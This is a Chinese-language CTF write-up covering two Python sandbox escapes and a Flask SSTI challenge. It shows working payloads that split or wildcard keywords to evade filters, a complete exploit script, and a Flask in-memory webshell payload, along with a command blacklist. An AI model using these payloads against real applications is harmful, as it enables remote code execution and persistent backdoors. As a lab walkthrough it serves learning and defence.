





# HXCTF-WEB

## 玩玩你的机-1

这题需要nc连接服务才能看到题目，可以直接在linux上用nc，我这里是在windows下用的netcat工具

netcat常用参数

```
-l 开启监听    
-p 指定端口    
-t 以telnet形式应答    
-e 程序重定向    
-n 以数字形式标识IP    
-v 显示执行命令过程   
-z 不进行交互，直接显示结果   
-u 使用UDP协议传输    
-w 设置超时时间   
-d 后台运行
```

nc连接

```
nc64.exe 43.139.51.42 38301
```

成功连接



然后弹出来一个人机验证码让我们输入，输入验证码之后让我们输入passphrase，测试发现passphrase好像可以执行python命令，应该是一个沙箱逃逸的题目。

沙箱逃逸具体可以看这个博客[python沙箱逃逸](https://www.cnblogs.com/name12581/articles/18566442)

测试一下

```
__import__('os').popen('whoami').read()
```

发现存在waf



然后手测一下哪些关键词被过滤了。

发现就过滤了一个`os`关键字。使用字符串拼接绕过

```
__import__('o''s').popen('ls /').read()
```

成功执行



但是没有发现flag

使用`find`命令在根目录下查找flag

```
__import__('o''s').popen('find / -name "flag"').read()
```

发现`/home/ctf/flag`



最终payload

```
__import__('o''s').popen('cat  /home/ctf/flag').read()
```

拿到flag



---

## 玩玩你的机-2

还是和上一题一样使用netcat连接。

然后经过测试发现这题和上题差不多，但是比上题多过滤一个`f`，直接使用通配符绕过即可

```
查看根目录下文件名
__import__('o''s').popen('ls /').read()

f被过滤了，在linux可以使用文件格式调用find命令，然后使用通配符?代替f，爆出/home/ctf/flag
__import__('o''s').popen('/bin/?ind / -name "?lag"').read()

拿到flag，也是注意ctf和flag中的f都用通配符?代替
__import__('o''s').popen('cat /home/ct?/?lag').read()
```

---

## 随便输

附件直接给了源码

```
from flask import Flask, request, render_template_string
import socket
import threading
import re

app = Flask(__name__)

blacklist = ['/', 'flag', 'cat', '+', 'base', 'attr', 'before_request', 'setdefault',
             'cycler', 'set', 'ls', 'response', 'eval', 'chmod', 'session', 'format',
             'self', 'mro', 'subclasses', 'chr', 'ord', 'config', 'getitem', 'teardown',
             'module', '__init__', '__loader__', '_request_ctx_stack', 'string', 'cp',
             '_update', 'add', 'after_request', 'system', 'open','socket', '*', '?', '>',
             'mv', 'file', 'write', 'env', 'join', 'static', '@', 'sleep','urllib']

@app.route('/')
def index():
    return "这里没有flag"

@app.route('/challenge', methods=['POST'])
def rce():
    cmd = request.form.get('try', '')
    for word in blacklist:
        pattern = r'(^|[^\w]){}([^\w]|$)'.format(re.escape(word))
        if re.search(pattern, cmd):
            return "执行失败"
    code = render_template_string(cmd)

    return '执行成功' if code is not None else '?'


class HTTPProxyHandler:
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

    def handle_request(self, client_socket):
        try:
            request_data = b""
            while True:
                chunk = client_socket.recv(4096)
                request_data += chunk
                if len(chunk) < 4096:
                    break

            if not request_data:
                client_socket.close()
                return

            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as proxy_socket:
                proxy_socket.connect((self.target_host, self.target_port))
                proxy_socket.sendall(request_data)

                response_data = b""
                while True:
                    chunk = proxy_socket.recv(4096)
                    if not chunk:
                        break
                    response_data += chunk

            header_end = response_data.rfind(b"\r\n\r\n")
            if header_end != -1:
                body = response_data[header_end + 4:]
            else:
                body = response_data

            response_body = body
            response = b"HTTP/1.1 200 OK\r\n" \
                       b"Content-Length: " + str(len(response_body)).encode() + b"\r\n" \
                                                                                b"Content-Type: text/html; charset=utf-8\r\n" \
                                                                                b"\r\n" + response_body

            client_socket.sendall(response)
        except Exception as e:
            print(f"Proxy Error: {e}")
        finally:
            client_socket.close()


def start_proxy_server(host, port, target_host, target_port):
    proxy_handler = HTTPProxyHandler(target_host, target_port)
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind((host, port))
    server_socket.listen(100)
    print(f"Proxy server is running on {host}:{port} and forwarding to {target_host}:{target_port}...")

    try:
        while True:
            client_socket, addr = server_socket.accept()
            print(f"Connection from {addr}")
            thread = threading.Thread(target=proxy_handler.handle_request, args=(client_socket,))
            thread.daemon = True
            thread.start()
    except KeyboardInterrupt:
        print("Shutting down proxy server...")
    finally:
        server_socket.close()


def run_flask_app():
    app.run(debug=False, host='127.0.0.1', port=5000)


if __name__ == "__main__":
    proxy_host = "0.0.0.0"
    proxy_port = 5001
    target_host = "127.0.0.1"
    target_port = 5000

    proxy_thread = threading.Thread(target=start_proxy_server, args=(proxy_host, proxy_port, target_host, target_port))
    proxy_thread.daemon = True
    proxy_thread.start()
    run_flask_app()

```

注意到/challenge路由中cmd参数可控，且没有过滤`{`和`}`，并且会对我们的cmd传参进行渲染，存在ssti

```
@app.route('/challenge', methods=['POST'])
def rce():
    cmd = request.form.get('try', '')
    for word in blacklist:
        pattern = r'(^|[^\w]){}([^\w]|$)'.format(re.escape(word))
        if re.search(pattern, cmd):
            return "执行失败"
    code = render_template_string(cmd)

    return '执行成功' if code is not None else '?'
```

### 解法一 响应头回显

但是这里不会回显结果，只会提示执行成功。这里看了wp使用的是响应头回显

参考[SSTI无回显处理(新回显方式) - E4telle - 博客园](https://www.cnblogs.com/E4telle/articles/18616135)

文章原payload：

```
{{lipsum.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.werkzeug.serving.WSGIRequestHandler,"protocol_version",lipsum.__globals__.__builtins__.__import__('os').popen('whoami').read())}}
```

`__init__`被过滤，那替换`lipsum.__spec__.__init__.__globals__`为`g.pop.__globals__`一样可以拿到sys；

而`cat`，`flag`，`/`被过滤，且无法使用`*`，`?`通配符绕过，那么可以考虑使用字符拼接绕过关键词过滤，例如`'cat'`改为`'ca'~'t'`，`'flag'`改为`'fl'~'ag'`，而`/`被过滤，不能直接`cd /`，那么`cd ..;cd ..;cd ..`一样可以达成目的，所以最终payload为：

```
{{lipsum.__globals__.__builtins__.setattr(g.pop.__globals__.sys.modules.werkzeug.serving.WSGIRequestHandler,\"server_version\",lipsum.__globals__.os.popen('cd ..;ca'~'t fla'~'g').read())}}
```

完整EXP

```
import requests
url = "http://43.139.51.42:38090/challenge"

payload = "{{lipsum.__globals__.__builtins__.setattr(g.pop.__globals__.sys.modules.werkzeug.serving.WSGIRequestHandler,\"server_version\",lipsum.__globals__.os.popen('cd ..;ca'~'t fla'~'g').read())}}"

r = requests.post(url, data={"try": payload})
print(r.text)
print(r.headers.get("Server"))
```

### 解法二 内存马写入

[原理](https://peppermint0323.github.io/2025/04/17/special/Flask%E5%86%85%E5%AD%98%E9%A9%AC/)

```
{{ url_for.__globals__.__builtins__.exec("global exc_class; global code; exc_class,code = app._get_exc_class_and_code(404); app.error_handler_spec[None][code][exc_class] = lambda a: __import__('os').popen(request.args.get('cmd')),read()",{'request': url_for.__globals__['request'],'app': url_for.__globals__['current_app']})}}
```


